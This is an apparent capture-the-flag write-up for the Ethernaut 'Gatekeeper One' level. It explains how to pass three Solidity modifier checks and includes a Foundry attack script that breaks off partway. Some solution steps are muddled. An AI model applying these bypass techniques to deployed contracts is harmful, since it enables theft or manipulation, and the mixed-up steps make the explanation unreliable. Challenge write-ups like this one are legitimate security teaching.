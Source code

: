 ```javascript
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- Goal 

1. Make it past the gatekeeper and register as an entrant to pass this level.

- Solution

1. We have to successfully call the `enter()` function, without being revert by modifier checks.
2. We need to pass three modifier checks. We can simply pass `gateOne()` by calling it from another contract.
3. To bypass `gateTwo()` we need to send exact `gas` that should result the modulo 8191 to zero. 
4. `gasLeft()` is a method which calculates the remaining gas after executing instructions before it invoked. 
5. We can pass the amount of gas to be transferred to the external call. But we need to send exact amount of gas.
6. One thing that we can do is bruteforce. By randomly bruteforcing with different values of gas, we can pass this modifier check.
7. To pass the `gateThree()` we need to some calculations. It takes the `_gateKey` a bytes8 value as argument.
8. Lets calculate from last check.
```
uint16 third = uint16(uint160(tx.origin));
uint32 two = uint32(third);
bytes8 one = bytes8(abi.encodePacked(uint32(0xdeadbeef),two));
```
9. The modifiers checks the lower 32 bits of the gatekey after converting to uint64.
10. So, we can calculate the lower 16 bits of the `tx.orgin` and pad it with zeros to pass the gatThree and gateOne.
11. Two pass the gateTwo we can add random bits to the MSB position.


`GatekeeperSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {GatekeeperOne} from "../src/GatekeeperOne.sol";

contract GatekeeperOneSolve is Script{
    GatekeeperOne public gateOne = GatekeeperOne(0x4742252E47788a20b2C78a1343DEE68EC8De3804);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Entrant : ", address(gateOne.entrant()));

        new Attack().exploit();

        console.log("Entrant : ", address(gateOne.entrant()));
        vm.stopBroadcast();
    }
}

contract Attack{
    GatekeeperOne public gateOne = GatekeeperOne(0x4742252E47788a20b2C78a1343DEE68EC8De3804);

    function exploit() public {
```
